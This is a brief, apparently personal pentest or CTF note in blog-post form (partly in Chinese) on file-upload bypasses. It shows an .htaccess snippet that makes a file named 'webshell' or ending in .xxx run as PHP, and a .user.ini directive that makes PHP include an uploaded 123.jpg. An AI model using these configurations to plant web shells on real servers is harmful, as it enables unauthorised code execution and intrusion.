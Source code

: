```yaml
---
layout: post
title: File-Upload
subtitle: File-Upload
date: 2025-06-17 16:22
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```


apache配置文件 `.htaccess`

```
<FilesMatch "webshell">
Sethandler application/x-httpd-php
</FilesMatch>
# or
AddHandler application/x-httpd-php .xxx
```

php配置文件 `.user.ini`

```ini
auto_prepend_file = 123.jpg
auto_append_file = 123.jpg
```

*必须运行在fastcgi模式*
